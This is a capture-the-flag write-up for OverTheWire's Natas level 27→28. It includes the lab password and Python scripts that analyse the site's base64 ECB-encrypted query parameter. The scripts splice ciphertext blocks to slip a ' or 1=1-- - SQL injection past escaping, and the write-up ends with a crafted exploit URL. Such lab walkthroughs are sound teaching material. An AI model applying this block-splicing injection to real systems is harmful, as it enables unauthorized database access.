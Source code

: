 # Level 27 → Level 28

## Details
Username: `natas28`<br />
Password: `skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4`<br />
URL:      http://natas28.natas.labs.overthewire.org

## Solution
![](0.png)

![](1.png)

![](2.png)

Well, there is a case of HTTP redirect here. Let's see it in Wireshark:

![](3.png)

I tried playing a bit with the **query** parameter...

![](4.png)

![](5.png)

I looked into what [PKCS#7 padding](https://medium.com/asecuritysite-when-bob-met-alice/so-what-is-pkcs-7-daf8f4423fd1) is... but didn't have much to do with it at the moment.

So, I decided to look deeper into the strange parameter sent by the site itself. It was very easy to understand that it was base64, so I created a program that prints the original bytes that are sent to the query for many inputs:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from urllib.parse import unquote
from base64 import b64decode
from string import printable

# Current level details
natas28_username = "natas28"
natas28_password = "skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4"

# GET HTTP details
URL = "http://natas28.natas.labs.overthewire.org/?query={0}"
AUTH = HTTPBasicAuth(natas28_username, natas28_password)

for c in printable:
    res = get(url=URL.format(c), auth=AUTH, allow_redirects=False)
    new_location = res.headers['Location'].split('=')[-1]
    print(bytes.hex(b64decode(unquote(new_location))))
```

![](6.png)

that's very weird. Everything is the same except for a 16-byte part in the middle.
Let's print again separating into groups of 16 bytes:

```python
from requests import get
from requests.auth import HTTPBasicAuth
from urllib.parse import unquote
from base64 import b64decode
from string import printable

# Current level details
natas28_username = "natas28"
natas28_password = "skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4"

# GET HTTP details
URL = "http://natas28.natas.labs.overthewire.org/?query={0}"
AUTH = HTTPBasicAuth(natas28_username, natas28_password)

for c in printable:
    res = get(url=URL.format(c), auth=AUTH, allow_redirects=False)
    new_location = res.headers['Location'].split('=')[-1]
    decoded = bytes.hex(b64decode(unquote(new_location)))
    print(c + ":", ' '.join([decoded[i*2*16:(i+1)*2*16] for i in range(len(decoded)//(2*16))]))
```

![](7.png)

A number of things can be concluded from looking at the output.
* Each row can be divided into 3 parts in this order:
    * Fixed part<br />
    `1be82511a7ba5bfd578c0eef466db59c dc84728fdcf89d93751d10a7c75c8cf2`
    * Variable part (probably depends on input from the user)
    * A part that in most cases looks the same except for the characters `"`, `#`, `&`, `'`, `\`, `\n`, `\r`

* It seems that the input from the user has been padded to 16 bytes, and encrypted.

I decided to try another approach, which is to see what happens when the input size changes. How does it affect?

```python
from requests import get
from requests.auth import HTTPBasicAuth
from urllib.parse import unquote
from base64 import b64decode

# Current level details
natas28_username = "natas28"
natas28_password = "skrwxciAe6Dnb0VfFDzDEHcCzQmv3Gd4"

# GET HTTP details
URL = "http://natas28.natas.labs.overthewire.org/?query={0}"
AUTH = HTTPBasicAuth(natas28_username, natas28_password)

for i in range(32):
    res = get(url=URL.format('*'*i), auth=AUTH, allow_redirects=False)
    new_location = res.headers['Location'].split('=')[-1]
    decoded = bytes.hex(b64decode(unquote(new_location)))
    print(str(i).zfill(2) + ":", ' '.join([decoded[i*2*16:(i+1)*2*16] for i in range(len(decoded)//(2*16))]))
```

![](8.png)

And from this I deduced the following:
* The third part of the line actually depends on the second part. (Here it is expressed because of the size of the input).
* It is possible that what actually happens is a combination of the input from the user within an existing string (for example an sql query), padding and encryption.
* We have no control over the first part.
* The characters `&` and `#` are removed from the input
* The characters `\`, `\r`, `\n`, `"`, `'` increase the input by one character.

Therefore, the order of operations on the server is as follows:
1. The input comes from the user
2. The characters `&` and `#` are removed from it
3. The input goes through the `mysqli_real_escape_string` function
4. The input is integrated into a sql query and padded to a 16-byte division (probably with PKCS#7 padding)
5. The query undergoes some kind of block encryption, base64 and is sent as a parameter to the redirect.<br />
It also makes sense because of the parameter name, **"quary"**.

Can we generate a `select * from users where username='natas29'` style query ourselves and send? No. Because we don't know the encryption and its key...

So what can we do? After all, we will not be able to do sql injection due to the protection.<br />
is that so?<br />
Why can't we separate blocks between the protection of the `mysqli_real_escape_string` function (adding a slash '\') and the special character?<br />
Ummm..<br />
Can we produce a hacked block and assemble a hacked query with it? Let's check it out!
We know that in each query up to 3 answers are displayed. We will try to get more answers as a start.

Note:
From an trial & error about the size of the input, it turns out that the original sql quary looks like this:<br />
`################ ################ ######<user input>########## ################ ####----------------`<br />
* First 6 characters in the block of the input I concluded that if you enter 10 characters and see result, then 11 characters and see result, you immediately see that **the block is the same** the second time. And if the size is 16, then before the input there were 6. <br />
* If the input to the quary is of size 0, then the fifth (and last) block has 4 bytes and then padding. This is true because when the input is size 12 there are still 5 blocks, and if the input is size 13 there are already 6 blocks.

Therefore, you have to be careful about the 6 bytes that go into the user's block, and you also have to be aware of the fact that each added character moves all the ones that come in line.

Back to our experiment:
1. We would like to inject a block that begins with the character `'` (that is, the last character in the previous block is `\`)
2. It is forbidden to omit the 6 bytes pushed to the user's block.

and hence:<br />
The input `*********' or 1=1-- -` will give us:<br />
![](9.png)

The input `**********` will give us: <br />
![](10.png)

Let's put them together and see what we got:

```python
from urllib.parse import quote
from base64 import b64encode

fixed_bytes = "1be82511a7ba5bfd578c0eef466db59c dc84728fdcf89d93751d10a7c75c8cf2"
Keeps_6_bytes = "60a227d6fb6eddec61d83de2500edd76"
user_input_and_the_rest = "7ec495538e8b79cb720f5dd46fc8a81c 41c098c4bacdc5ed9357564e5105dd7e 64d0dcc868253692adfcbd3796d1bf8a"

q = (fixed_bytes + Keeps_6_bytes + user_input_and_the_rest).replace(' ', '')

print('http://natas28.natas.labs.overthewire.org/search.php/?query=' + quote(b64encode(bytes.fromhex(q))))

# Output:
# http://natas28.natas.labs.overthewire.org/search.php/?query=G%2BglEae6W/1XjA7vRm21nNyEco/c%2BJ2TdR0Qp8dcjPJgoifW%2B27d7GHYPeJQDt12fsSVU46LectyD13Ub8ioHEHAmMS6zcXtk1dWTlEF3X5k0NzIaCU2kq38vTeW0b%2BK
```

![](11.png)

It worked!!
We can now perform any sql injection we want!

## Password for the next level:
```

```

